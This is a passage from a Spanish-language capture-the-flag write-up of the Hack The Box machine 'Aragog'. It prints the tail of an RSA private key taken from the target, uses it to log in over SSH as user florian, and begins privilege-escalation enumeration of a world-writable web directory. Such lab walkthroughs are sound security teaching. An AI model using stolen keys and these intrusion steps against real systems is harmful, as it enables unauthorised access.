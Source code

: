 ```bash
   9   │ TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
  10   │ 9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
  11   │ /oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
  12   │ 0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
  13   │ sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
  14   │ Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
  15   │ zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
  16   │ rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
  17   │ tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
  18   │ HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
  19   │ I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
  20   │ ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
  21   │ HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
  22   │ kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
  23   │ 4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
  24   │ 7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
  25   │ daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
  26   │ uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
  27   │ -----END RSA PRIVATE KEY-----
❯ chmod 600 id_rsa
```

Ahora vamos a conectarnos a la máquina:

```bash
❯ ssh -i id_rsa florian@10.10.10.78
The authenticity of host '10.10.10.78 (10.10.10.78)' can't be established.
ECDSA key fingerprint is SHA256:phu0FjQg/9nCmL2014AJ9yH4akvraA7Ea5QtE59wqD4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.78' (ECDSA) to the list of known hosts.
Last login: Fri Jan 12 13:56:45 2018 from 10.10.14.3
florian@aragog:~$ whoami
florian
florian@aragog:~$
```

Ya estamos dentro de la máquina como el usuario *florian* y a partir de aquí podemos visualizar la flag (user.txt).  Nos queda escalar privilegios, así que vamos a enumerar un poco el sistema:

```bash
florian@aragog:/var/www/html$ ll
total 32
drwxrwxrwx 4 www-data www-data  4096 Sep 20 12:35 ./
drwxr-xr-x 3 root     root      4096 Dec 18  2017 ../
drwxrwxrwx 5 cliff    cliff     4096 Sep 20 12:35 dev_wiki/
-rw-r--r-- 1 www-data www-data   689 Dec 21  2017 hosts.php
-rw-r--r-- 1 www-data www-data 11321 Dec 18  2017 index.html
drw-r--r-- 5 cliff    cliff     4096 Dec 20  2017 zz_backup/
florian@aragog:/var/www/html$
```

Vemos que dentro de `var/www/html` se tienen varios recursos asociados al sitio web. Algo raro que notamos es que el recurso `dev_wiki/` está asignado al grupo y al usuario *cliff*; pero nosotros como el usuario *florian* tenemos permisos `rwx`. Podemos pensar en ver los archivos dentro de dicho directorio, pero antes de eso, vamos a listar los procesos que se estan ejecutando en el sistema a intervalos regulares con la creación del archivo `procmon.sh`:
